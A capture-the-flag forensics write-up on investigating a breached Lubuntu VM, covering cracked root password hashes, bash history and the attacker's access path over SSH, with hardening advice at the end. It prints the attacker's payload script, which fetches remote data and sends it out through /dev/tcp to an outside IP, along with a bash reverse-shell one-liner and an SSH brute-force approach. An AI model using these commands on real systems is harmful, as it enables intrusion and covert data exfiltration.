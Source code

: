 # Challenge Name: DFIR

![date](https://img.shields.io/badge/date-24.04.2021-brightgreen.svg)  
![solved in time of CTF](https://img.shields.io/badge/solved-in%20time%20of%20CTF-brightgreen.svg)   
![forensics category](https://img.shields.io/badge/category-Forensics-blueviolet.svg)   
![value](https://img.shields.io/badge/value-400-blue.svg)  


## Description

Our Lubuntu server has been breached! We recieved an alert about it communicating with malicious servers and we saw a SIGNIFICANT increase in CPU usage. We SSHed in and saw that changes had been made to the / directory. We need to know how this attacker got in (so we can keep him out in the future) and what he was using our server for...

uname: "victem" (ya, we kinda jinxed ourselves with that name) pw: "correct-horse-battery-staple"

Download: https://drive.google.com/file/d/16sV8pXSrG22KL4zJ9VrpZTcZAs_N9XYw/view 

## Detailed solution  

Start by importing the virtualbox machine and run it 

![image](https://user-images.githubusercontent.com/72421091/116092049-fde5d280-a694-11eb-93e7-3d1c3011ebac.png)

Let's SSH to the machine using the credentials in description ```victem / correct-horse-battery-staple``` get more confortable 

Our machine is a ```Lubuntu 18.04 LTS``` and the linux kernel version is ```4.15.0-20``` 

![image](https://user-images.githubusercontent.com/72421091/116094116-ca0bac80-a696-11eb-985f-8ee3b03d722e.png)

The description mention that that changes had been made to the / directory so let's go check it 

![image](https://user-images.githubusercontent.com/72421091/116096118-89149780-a698-11eb-9b94-39c013a822ee.png)

The file ```cluster-crack.pot``` is suspicious let's read it  

```
cat cluster-crack.pot

$6$fZ/iAgR.$FHl9m/ibTVBQ3OQ645IiLtrcxSsxdt8pTQHh7knfQ2GhD7Pbu0Dv0evXaGnnMVjV7xe5KlRprL5hWEjE6/Ruj0:toor
```

We can see a decrypted linux hash password which is ```toor``` which is a commun default root password 

The POT file is where john stores passwords that it has already cracked for display with the "--show" command  

So the attacker used john the decrypt the users hash password 

Checking the passwd file we can see the users root and victem 

![image](https://user-images.githubusercontent.com/72421091/116098680-caa64200-a69a-11eb-835c-9be03c5a1c45.png)

Let's switch to ```root``` with the password ```toor``` and check the bash history 

![image](https://user-images.githubusercontent.com/72421091/116099769-d2b2b180-a69b-11eb-9ff3-ac36623743b5.png)  

NB : the line 6 is wrong it's sould be ```wget https://gitlab.com/thehacker1/payload/-/blob/master/.payload.sh```  

![image](https://user-images.githubusercontent.com/72421091/116101630-82d4ea00-a69d-11eb-9d94-b4d6f74c5c25.png)

We can see two attacks, running a payload.sh and cracking the shadow file hashes using john and the wordlist rockyou.txt

The files has been downloaded from a gitlab repository https://gitlab.com/thehacker1/payload/-/tree/master 

![image](https://user-images.githubusercontent.com/72421091/116103519-312d5f00-a69f-11eb-997f-9c19f201bccd.png)

**.payload.sh file**

```bash
#!/bin/bash

W=$((15*60))
K=120

while true
do
	echo "sleeping for $W seconds"
	sleep $W
	rm .encrypted_csv.data
	wget https://gitlab.com/thehacker1/payload/-/raw/master/.encrypted_csv.data
	echo "downloaded file"
	F="./.encrypted_csv.data"
	hexdump -v -e '/1 "%u\n"' $F | while read B; do
		E=$((K^B))
		C=$(printf \\$(printf '%03o' $E))
		echo -n $C >> encrypted.csv
	done
	echo "decrypted newest command"
	S=$(cat encrypted.csv)
	rm encrypted.csv
	S="${S::-1}"
	D=,
	S=$S$D
	array=();
	while [[ $S ]]; do
		array+=( "${S%%"$D"*}" );
		S=${S#*"$D"};
	done;
	declare -a array
	M=${array[0]}
	I=${array[1]}
	P=${array[2]}
	M=${M##WPI}
	echo "routing message to $I:$P"
	echo "$M" > /dev/tcp/$I/$P
done
```

We can see some steps :

- Download the .encrypted_csv.data file from the gitlab repository using wget
- Decrypting the file : convert .encrypted_csv.data to decimal values, xor using K=120, converto to octal values and print the ascii charactere
- encrypted.csv : WPI{open-ports-will-be-abused},185.22.155.51,80r
- Save encrypted.csv as array : M is our flag, I the ip adresse and P the port 
- echo "$M" > /dev/tcp/$I/$P : similar to a bash reverse shell ```bash -i >& /dev/tcp/10.0.0.1/8080 0>&1```

A bash script for decryption to get the flag 

```bash
#!/bin/bash

wget https://gitlab.com/thehacker1/payload/-/raw/master/.encrypted_csv.data #Download file from the gitlab repository
echo "[+] Downloaded file"

F="./.encrypted_csv.data"
K=120

hexdump -v -e '/1 "%u\n"' $F | while read B; do   # Convert .encrypted_csv.data values to decimal one byte for each line and start a loop
        E=$((K^B))                                # xor K=120 and the decimal value from .encrypted_csv.data (1 byte line)
        C=$(printf \\$(printf '%03o' $E))         # Convert the xor output to octal and print the ascii character
        echo -n $C >> encrypted.csv
done

echo "[+] Decrypted"

S=$(cat encrypted.csv) # S --> WPI{open-ports-will-be-abused},185.22.155.51,80r
flag="${S:0:30}"
echo "[+] Flag : $flag"
```
![image](https://user-images.githubusercontent.com/72421091/116130198-79a64600-a6ba-11eb-85e8-f0364d87e288.png)


## Flag

```
WPI{open-ports-will-be-abused}
```

## How the attacker get in  

Starting by performing ports scan using nmap 

![image](https://user-images.githubusercontent.com/72421091/116132345-f89c7e00-a6bc-11eb-9a4b-6f2163f959e9.png)

We can see the port 22/TCP runinng the OpenSSH 7.6p1 which is vulnerable to a username enumeration attack https://nvd.nist.gov/vuln/detail/CVE-2018-15473  

I tried user enumeration using this exploit https://www.exploit-db.com/exploits/45233 and the metasploit module auxiliary/scanner/ssh/ssh_enumusers but no success

I tried to bruteforce ssh credentials using hydra with a default credentials list https://github.com/danielmiessler/SecLists/blob/master/Passwords/Default-Credentials/ssh-betterdefaultpasslist.txt 

![image](https://user-images.githubusercontent.com/72421091/116150292-b5e5a080-a6d2-11eb-9926-f09203bdc253.png)

So we can access the server using SSH as root 

### Fix

- Disable direct root ssh login
- Change the passwords for root and victem, use a strong one and also you can use ssh keys for better security    
- Upgrade OpenSSH to latest version

Some best practices explained by liveoverflow  

https://www.youtube.com/watch?v=fKuqYQdqRIs







